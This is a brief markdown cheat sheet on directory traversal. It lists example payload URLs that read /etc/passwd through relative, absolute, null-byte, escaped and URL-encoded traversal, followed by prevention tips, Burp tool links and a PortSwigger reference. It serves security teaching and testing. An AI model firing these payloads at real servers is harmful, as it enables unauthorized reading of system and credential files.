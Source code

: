 # Directory traversal :open_file_folder:
Gain access to files and directories that are stored outside the web root directory.  This can be accomplished in a variety of ways for requests that take user supplied input and use it to retrieve a file:

```sh
# Relative path traversal
https://server.com/loadimage?filename=../../../etc/passwd

# Absolute path traversal
https://server.com/loadimage?filename=/etc/passwd

# Known start path with relative traversal
https://server.com/loadimage?filename=/var/www/images/../../../etc/passwd

# Relative path traversal with null byte
https://server.com/loadimage?filename=../../../etc/passwd%00.png

# Relative path traversal with escaped paths
https://server.com/loadimage?filename=....//....//....//etc/passwd
https://server.com/loadimage?filename=....\/....\/....\/etc/passwd

# Relative path traversal with URL encoded paths %2E%2E%2F == ../
https://server.com/loadimage?filename=%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc/passwd
```

## Prevent
- Do not allow user supplied input to be used to retrieve files.
- Strip all path traversal characters from user supplied input.
- Do not allow server process to read files outside of defined asset directories.
- Change file retrieval requests against safelist of allowed paths and files.

## Tools
- [Burp Proxy](https://portswigger.net/burp/documentation/desktop/tools/proxy)
- [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater)

## References
- https://portswigger.net/web-security/file-path-traversal